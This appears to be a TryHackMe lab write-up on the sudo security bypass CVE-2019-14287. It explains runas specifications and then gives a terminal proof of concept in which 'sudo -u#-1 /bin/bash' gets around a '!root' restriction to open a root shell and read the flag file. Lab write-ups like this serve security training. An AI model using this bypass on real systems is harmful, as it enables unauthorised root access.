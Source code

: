 # TryHackMe: Sudo Security Bypass CVE-2019-14287 

https://tryhackme.com/room/sudovulnsbypass

# Background: 
	
Runas specification: Runas refers to RUN AS a user. So Runas specification means it can be run as a specific user.

Sudo: Sudo (su “do”) allows a system administrator to delegate authority to give certain users (or groups of users) the ability to run some (or all) commands as root or another user while providing an audit trail of the commands and their arguments. -u option is used to set a user’s privilege level. For example, if you wanna run whoami command with uid=1234, then you can do like this; $ sudo -u#1234 whoami


# PoC
```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
tryhackme@sudo-privesc:~$ sudo whoami
[sudo] password for tryhackme: 
Sorry, user tryhackme is not allowed to execute '/usr/bin/whoami' as root on sudo-privesc.
tryhackme@sudo-privesc:~$ sudo -u#-1 whoami
[sudo] password for tryhackme: 
Sorry, user tryhackme is not allowed to execute '/usr/bin/whoami' as #-1 on sudo-privesc.
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
root@sudo-privesc:~# ls
root@sudo-privesc:~# cat /root/root.txt
THM{l33t_s3cur1ty_bypass}
root@sudo-privesc:~# 
```
